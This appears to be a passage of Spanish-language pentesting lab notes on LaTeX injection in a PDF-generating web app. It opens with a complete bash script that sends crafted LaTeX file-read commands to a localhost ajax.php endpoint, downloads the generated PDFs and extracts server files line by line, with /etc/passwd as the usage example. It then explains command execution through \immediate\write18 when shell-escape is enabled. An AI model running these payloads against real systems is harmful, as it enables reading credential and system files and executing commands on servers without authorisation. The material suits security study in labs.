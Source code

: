 ```bash
#!/bin/bash

# Variables globales
declare -r main_url="http://localhost/ajax.php" 
filename=$1

if [ $1 ]; then
  read_file_to_line="%0A\read\file%20to\line"
  for i in $(seq 1 100); do
    file_to_download=$(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$read_fi
le_to_line%0A\text{\line}%0A\closein\file&template=blank" | grep -i "download" | awk '{print $NF}')

    if [ $file_to_download ]; then
      wget $file_to_download &>/dev/null
  
      file_to_convert=$(echo $file_to_download | tr '/' ' ' | awk '{print $NF}')
      pdftotext $file_to_convert
   
      file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt/')
      rm $file_to_convert

      cat $file_to_read | head -n 1
      rm $file_to_read
      read_file_to_line+="%0A\read\file%20to\line"
    else
      read_file_to_line+="%0A\read\file%20to\line"
    fi
  done
else
  echo -e "\n[!] Uso: $0 /etc/passwd\n\n"
fi

```

## RCE y Reverse Shell a través de LaTeX Injection

Ya vimos como listar el contenido de los archivos internos del servidor, ahora también podríamos llegar a un *RCE* (*Remote Code Execution*) siempre y cuando se esté empleando ``--shell-escape`` por detrás y nos permita utilizar ``\write18{command}``

Si colocamos la siguiente cadena ``\immediate\write18{id}`` proporcionando el comando ``id`` como se ve, si prestamos atención al *Log* que nos da la web, veremos lo siguiente.

![[Latex 10.png]]

En este caso veríamos el output del comando ``id`` en el *Log*.

------

Si nosotros quisiéramos verlo en un archivo *PDF* porque en otro caso que nos suceda **no se nos muestran los Logs**, o porque simplemente nos resulta mas cómodo, deberíamos agregar al ``\write18{id}`` esto ``\write18{id > output}`` y luego meter las líneas que utilizábamos antes para la lectura de archivos proporcionando el archivo ``output`` como objetivo de lectura, que es el *PDF* que almacenará la respuesta del comando ``id``.
